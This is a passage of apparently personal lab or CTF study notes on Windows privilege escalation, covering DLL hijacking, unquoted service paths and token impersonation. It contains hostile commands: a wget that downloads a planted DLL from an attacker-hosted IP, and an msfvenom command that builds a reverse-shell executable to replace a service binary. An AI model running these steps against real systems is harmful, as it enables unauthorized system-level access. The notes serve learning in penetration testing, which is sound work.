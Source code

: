 What this line of C code will do is launch cmd.exe, run the command whoami and save the results to "C:\\Temp\\dll.txt"

To compile to piece of C code to a DLL file we will be using Mingw compiler. This can be installed used the apt install `gcc-mingw-w64-x86-64` command. To generate the code we can using the following command: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

Once compiled we will need to move the .DLL file to the local machine, we can do this using a local python server for example, and then using the wget command in powershell. (e.g. `wget -O hijackme.dll http://10.11.46.156:8000/hijackme.dll`) *note the -O flag

After putting the .DLL file in place we will have to start the service again using the following command: `sc stop <service> start <service>`

# Unquoted Service Path

When a service starts the OS has to find and run an executable find. For example the netlogon service is referring to the C:\Windows\system32\lsass.exe binary.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/35e0da28-a9e8-48ad-b128-00a600b9b0f5/Untitled.png)

Imagine we have a service running on `C:\Program Files\topservice folder\subservice subfolder\srvc.exe` to a human eye, this path wouldn't be merely any different from `"C:\Program Files\topservice folder\subservice subfolder\srvc.exe"`. Windows approaches this a bit different, it knows its looking for an executable file (.exe). If the path is written between quotes it will directly go to the correct location. However if this path is not written between quotes and if any folder name in the path has aspace in its name Windows will **append ".exe"** and start looking for an executable, so starting with the **shortest possible path**. If this fails another attempt will be made in the next sub-directory. Until the executable is found. Exploiting this vulnerabilty **will require write permissions** to a folder where to service will look for an executable.

The command `wmic service get name,displayname,pathname,startmode` will list services running on the target system, display name, and path. If you find an intrestering service without the use of quotes you may use the `sc qc unquotedsvc` command to check the complete path of the service.

Once you have confirmed that the binary path is unquoted, you will need to check if the folder in the path are writeable. You can do this manually, by checking if you can create files in the directory or use a tool called accesschk.exe.`.\accesschk64.exe /accepteula -uwdq "C:\"` Will list user group with read (r) and write (w) privileges in the C:\ folder. You can download this on github

After checking if the path is writeable we can generate an executable with MSFvenom and catch it with a multi/handler. 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=X LPORT=X -f exe > executable_name.exe`

Once you have generated and moved the file to the location restart the vulnerable service. You can use the `sc start <service>` command to start the service.

# Token Impersonation

Service accounts may have a high privilege level than low-level default users. In Windows versions before Server 2019 and 10 (version 1809), these service account are affected by an internal MitM vulnerability. Higher privileged service accounts will be forced to authenticate to a local port we will listen on. Once the service account attempts toauthenticate, this request is modified to negotiatie a security token for the "NT AUTHORITY\SYSTEM" account.This token can be ued by the user in a process called "impersonation". Although this is not a vulnerabilty.
